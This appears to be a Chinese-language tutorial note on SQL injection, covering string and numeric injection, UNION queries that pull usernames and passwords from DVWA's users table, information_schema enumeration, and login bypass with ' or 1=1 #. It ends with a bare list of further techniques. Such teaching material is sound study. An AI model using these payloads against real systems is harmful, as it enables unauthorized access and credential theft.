 # SQL注入  

## Sql注入的基本类型  

> - 数字型与字符类型  
> - 基于错误，基于响应时间的盲注，基于响应的注入

### 字符型
常基于以下SQL:  
`SELECT * FROM student_info WHERE id = '$id' and name = '$name';`

### 数字型
常基于以下SQL:  
`SELECT * FROM student_info WHERE id = $id;`

## 用途

### 猜解数据库
1.报错信息



2.联合查询 union

`1' union select user,password from users#` 构造成 

`SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#`;`

`select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`;`    
从 information_schema 数据库里查询 

可查询的数据库信息有：  
- version()  查询当前数据库版本  
- @@version_compile_os 获取当前操作系统
- database() 当前数据库
- user() 用户


### 绕过验证

- 常用方式

1.注释符与永真判别式 

注释符用于注释掉后续内容；  

如：（字符型）   
`SELECT * FROM student_info WHERE id = '$id' and name = '$name';`

构造  ` 1' or 1=1 #` 成为 `SELECT * FROM student_info WHERE id = '1' or 1=1 # and name = '$name';`

如：（数字型）  
`SELECT * FROM student_info WHERE id = $id;`

构造 `1 or 1=1 #` 成为 `SELECT * FROM student_info WHERE id = 1 or 1=1 #;`


## 识别Sql注入  
### 判断注入点  
最简单的方式是  
**1'**  单引号判别，出错则说明有注入点

1.永真和永假表达式 or 1=1-- 
2.报错信息  
3.特定数据库的连接符  SQL SERVER ---


## 常用其它
sql注入常用技术有段还包括：

- 采用非主流通道技术
- 避开输入过滤技术
- 使用特殊的字符
- 强制产生错误
- 使用条件语句
- 利用存储过程
- 推断技术
........

- 宽字节注入
- urldecode二次注入
- sql注入防御
